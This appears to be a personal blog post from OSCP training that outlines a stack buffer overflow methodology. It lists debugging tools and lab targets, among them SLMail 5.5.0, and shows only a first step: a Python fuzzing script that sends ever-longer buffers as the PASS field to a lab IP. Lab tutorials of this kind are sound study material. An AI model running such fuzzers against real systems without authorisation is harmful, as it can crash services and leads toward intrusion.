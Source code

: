 ```yaml
---
layout: post
title: Buffer Overflow Methodology
writtendate: 14th Mar 2019
img: images/bof_method.JPG
---
```


Methodology for Buffer Overflows. Still rough but making progress for sure.

I've been running through OSCP course and got to the buffer overflow section.
Stumbled across the "do-stack-buffer-overflow-good" from Justin Steven, which is awesome. 


### Helpful Links

- [VMware Workstation](https://www.vmware.com/uk/products/workstation-player.html)
- [Windows-VMs](https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/)
- [dostackbufferoverflowgood](https://github.com/justinsteven/dostackbufferoverflowgood)
- [Immunity Debugger](http://www.immunityinc.com/products/debugger/)
- [mona.py](https://github.com/corelan/mona)
- Optional: [IDA](https://www.hex-rays.com/products/ida/support/download_freeware.shtml)



Tested on:

- doastackbufferoverflowgood
- SLMAIL 5.5.0 (4433)


### Pre-Requisite

- A rough idea of what is susceptible to Buffer Overflows. So, we know where to send. (More experienced engineers can discover these)

- Any Protection in place Data Execution Prevention (DEP), Address Space Layout Randomization (ASLR)

### Step 1 -Fuzz

Fuzzing- Test if the Application is susceptible to Buffer overflow by sending an ever-increasing amount of data until an exception is thrown.

CODE:
```python
#!/usr/bin/python
import socket

# Create an array of buffers  from 10 to 2000  with increments of 20.
buffer=["A"]
counter=100
while len(buffer) <= 30:
  buffer.append("A"*counter)
  counter=counter+200

for string in buffer:
  print "Fuzzing PASS with %s bytes" % len(string)
  s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  connect=s.connect(('192.168.0.207',31337))
  s.recv(1024)
  s.send('USER test\r\n')   #send junk as username
  s.recv(1024)
  s.send('PASS ' + string + '\r\n') #send our string as password (this is vuln part)
  s.send('QUIT\r\n')
  s.close()
```
